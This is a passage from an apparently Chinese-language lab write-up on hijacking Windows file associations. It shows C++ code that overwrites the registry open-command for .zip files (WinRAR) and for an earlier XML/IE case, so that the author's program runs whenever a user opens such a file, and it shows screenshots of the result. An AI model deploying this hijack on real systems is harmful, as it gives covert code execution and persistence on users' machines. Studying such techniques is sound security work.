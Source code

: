 ```cpp
	return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	int ret = ModifyRegKey();
	
	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("C:\\Program Files\\Internet Explorer\\iexplore.exe"), strDir);
	GetCurrentDirectory(260, strDir);
	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);
	return 0;
}
```

然后我们发现这个xml真的逊

![image-20220520181724954](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223935560-1075240970.png)

但发现还是能用的。

![image-20220520181828306](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223935976-1720442543.png)

最终也打开了文件

![image-20220520181846430](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223936323-1132349959.png)

##### zip

本次实验篡改的是以.zip为后缀的文件的打开方式，即劫持WinRAR程序。代码如下：

```cpp
#include <windows.h>
int ModifyRegKey()
{
    HKEY hKey = NULL;
    if (RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("WinRAR.ZIP\\shell\\open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS)
        return 1;
    int nRet = 0;
    TCHAR strPath[260] = {0};
    GetModuleFileName(NULL, strPath, 260);
    wsprintf(strPath, TEXT("%s %%1"), strPath);
    if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS)
        nRet = 1;
    else
        nRet = 0;
    RegCloseKey(hKey);
    return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    int ret = ModifyRegKey();

    TCHAR strDir[260] = {0};
    TCHAR strPath[260] = {0};

    // GetSystemDirectory(strDir,260);
```